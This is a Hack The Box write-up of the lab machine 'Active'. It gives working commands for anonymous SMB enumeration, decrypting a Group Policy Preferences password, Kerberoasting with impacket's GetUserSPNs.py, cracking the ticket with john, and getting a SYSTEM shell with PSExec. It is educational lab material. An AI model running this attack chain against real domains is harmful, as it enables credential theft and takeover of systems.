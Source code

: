```yaml
---
layout: PostSimple
date: 2020-04-22
title:     "Hack The Box - Active"
tags: ['windows','easy','smb','kerberos','psexec']
layout: PostSimple
---
```



![73f757b7fcd980b15078520b34f12dd2.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-active/74a132f10e0d4e0797bf934c20a1a352.png)

We are going to pwn Active from Hack The Box.

Link: [https://www.hackthebox.eu/home/machines/profile/148](https://www.hackthebox.eu/home/machines/profile/148)

Let's Begin with our Initial Nmap Scan.

## Nmap Scan Results:

```
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5722/tcp  open  msdfsr
9389/tcp  open  adws
47001/tcp open  winrm
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49155/tcp open  unknown
49157/tcp open  unknown
49158/tcp open  unknown
49169/tcp open  unknown
49171/tcp open  unknown
49182/tcp open  unknown
```
There are many ports open, let's start with `SMB`

## SMB:

I logged in without the password.
```
root@w0lf:~# smbclient -L 10.10.10.100 
Enter WORKGROUP\root's password: 
Anonymous login successful

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	Replication     Disk      
	SYSVOL          Disk      Logon server share 
	Users           Disk      
SMB1 disabled -- no workgroup available
```
Let's check what's inside them.

It seems like I only have access to `Replication`
>smbclient //10.10.10.100/Replication

```
root@w0lf:~# smbclient //10.10.10.100/Replication
Enter WORKGROUP\root's password: 
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Jul 21 16:07:44 2018
  ..                                  D        0  Sat Jul 21 16:07:44 2018
  active.htb                          D        0  Sat Jul 21 16:07:44 2018

		10459647 blocks of size 4096. 4922655 blocks available
```
```
smb: \> cd active.htb
smb: \active.htb\> ls
  .                                   D        0  Sat Jul 21 16:07:44 2018
  ..                                  D        0  Sat Jul 21 16:07:44 2018
  DfsrPrivate                       DHS        0  Sat Jul 21 16:07:44 2018
  Policies                            D        0  Sat Jul 21 16:07:44 2018
  scripts                             D        0  Thu Jul 19 00:18:57 2018

		10459647 blocks of size 4096. 4922655 blocks available
smb: \active.htb\> 
```

I downloaded all the files in the box to my machine using `smbget`.
```
root@w0lf:~/CTF/HTB/Boxes/Active# smbget -R smb://10.10.10.100/Replication/
Password for [root] connecting to //Replication/10.10.10.100: 
Using workgroup WORKGROUP, user root
smb://10.10.10.100/Replication//active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/GPT.INI                                                                                                                                            
smb://10.10.10.100/Replication//active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/Group Policy/GPE.INI                                                                                                                               
smb://10.10.10.100/Replication//active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Microsoft/Windows NT/SecEdit/GptTmpl.inf                                                                                                   
smb://10.10.10.100/Replication//active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups/Groups.xml                                                                                                              
smb://10.10.10.100/Replication//active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Registry.pol                                                                                                                               
smb://10.10.10.100/Replication//active.htb/Policies/{6AC1786C-016F-11D2-945F-00C04fB984F9}/GPT.INI                                                                                                                                            
smb://10.10.10.100/Replication//active.htb/Policies/{6AC1786C-016F-11D2-945F-00C04fB984F9}/MACHINE/Microsoft/Windows NT/SecEdit/GptTmpl.inf                                                                                                   
Downloaded 8.11kB in 33 seconds
```

I found a Interesting file `Groups.xml` in `\active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\`

That file contains username and an encrypted password. It's a GPP Password.
![sample.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-active/24959afb5d6e44d98d32b8dcaec80e67.png)


There is a tool in kali `gpp-decrypt` to crack this password.
To know more about what is `cpassword` and `GPP`, you can read [here](https://adsecurity.org/?p=2288).
```
root@w0lf:~/CTF/HTB/Boxes/Active/active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups# gpp-decrypt "edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ"
/usr/bin/gpp-decrypt:21: warning: constant OpenSSL::Cipher::Cipher is deprecated
GPPstillStandingStrong2k18
```
So the password is `GPPstillStandingStrong2k18`.

## User:

I logged in as `SVC_TGS : GPPstillStandingStrong2k18`
```
root@w0lf:~/CTF/HTB/Boxes/Active# smbclient //10.10.10.100/Users -U "SVC_TGS"
Enter WORKGROUP\SVC_TGS's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                  DR        0  Sat Jul 21 20:09:20 2018
  ..                                 DR        0  Sat Jul 21 20:09:20 2018
  Administrator                       D        0  Mon Jul 16 15:44:21 2018
  All Users                         DHS        0  Tue Jul 14 10:36:44 2009
  Default                           DHR        0  Tue Jul 14 12:08:21 2009
  Default User                      DHS        0  Tue Jul 14 10:36:44 2009
  desktop.ini                       AHS      174  Tue Jul 14 10:27:55 2009
  Public                             DR        0  Tue Jul 14 10:27:55 2009
  SVC_TGS                             D        0  Sat Jul 21 20:46:32 2018

		10459647 blocks of size 4096. 4922639 blocks available
```

Got User Flag:[br/](br/)
![032652c6512aa3dc46398b218303cf90.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-active/8b2e0f9b19b241a28faf4d16ab74a337.png)

## Kerberosting:

We know port 88 is open, so we can move on to the kerberosting technique.

### Step 1:

First we need to get administrator Kerberos ticket. For that we can use `GetUserSPNs.py` from [impacket](https://github.com/SecureAuthCorp/impacket).
>GetUserSPNs.py -request -dc-ip 10.10.10.100 active.htb/SVC_TGS

![edacd9dbbaaf65bf047828e5b08df799.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-active/1be013c86ce44243b7ec30f8b61116d6.png)
Now we can crack this using `john`.

### Step 2:

Cracking the ticket using `john`[br/](br/)
![033afd7f0ad9118331aaa540749471a9.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-active/797ea49a2e2846c4a38b012202d15e11.png)[br/](br/)
And we got the administrator password : `Ticketmaster1968`

## Getting system Shell:

I can get a shell with PSExec which is also from Impacket.
![f56036627caa1deb8121811a74e7e25e.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-active/59b5673a954140508edae991d29f4b71.png)

We own the root!!












